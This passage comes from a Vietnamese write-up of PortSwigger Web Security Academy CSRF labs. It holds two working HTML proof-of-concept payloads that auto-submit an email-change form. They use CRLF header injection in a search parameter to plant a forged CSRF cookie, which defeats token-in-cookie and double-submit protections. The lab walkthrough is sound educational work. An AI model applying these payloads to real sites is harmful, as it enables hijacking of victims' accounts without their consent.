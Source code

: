 - Từ đấy, tôi đã viết script như sau:

```javascript
<html>
  <body>
    <form action="https://0a2700870404dd73c06231bd00e400eb.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin1111&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="hDS6NGfzvoOnmMbbaHcTW15xTKhQltvi" />
    </form>
          <img src="https://0a2700870404dd73c06231bd00e400eb.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=XWEW14MDJT1F4aJ7dqAxgXjjmm43LYcu%3b%20" onerror="document.forms[0].submit()">
  </body>
</html>

```

> ### **CSRF where token is duplicated in cookie**

- Ở với bài này đề ra dử dụng kỹ thuật ngăn chặn CSRF `double submit`.

- `double submit` ở đây có nghĩa là nó có xác thực csrf token trên cả cookie và value form. Hai giá trị ấy hoàn toàn giống nhau.

![](./img_csrf/csrf-5.png)

- Vậy chúng ta hãy nghĩ cách làm sao để có thể thay đổi csrf trong cookie của ngưởi dùng.Tương tự bài trên chúng ta có thể thay đổi qua chức năng tìm kiếm search.

```javascript
<html>
  <body>
    <form action="https://0a15006403ff0d65c01d360e00a00024.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="mPK51SRBoD22X3MeVX3II0Ryn58gNw3o" />
    </form>
         <img src="https://0a15006403ff0d65c01d360e00a00024.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=mPK51SRBoD22X3MeVX3II0Ryn58gNw3o%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```
